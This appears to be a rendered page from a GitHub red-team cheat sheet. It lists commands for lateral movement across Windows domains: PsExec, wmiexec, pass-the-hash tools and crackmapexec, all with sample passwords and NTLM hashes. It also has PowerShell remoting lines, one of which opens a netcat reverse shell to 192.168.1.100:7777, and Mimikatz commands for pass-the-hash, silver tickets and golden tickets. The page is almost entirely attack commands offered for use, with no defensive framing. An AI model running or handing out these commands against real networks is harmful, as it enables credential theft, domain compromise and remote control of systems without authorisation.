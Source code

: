 
| for Example |
| ------------- |
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
|pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 cmd.exe|
| pth-wmic -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "select Name from Win32_UserAccount"|
| pth-wims -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "cmd.exe /c   whoami > c:\temp\result.txt" |
| pth-smbclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //x.x.x.10/c$ |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //x.x.x.10 |
|crackmapexec 192.168.1.1 -u Administrator -p '1234567qA' -x whoami|

| PowerShell Remoting |
| ------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|



### Mimikatz Guide

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:fs01 /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
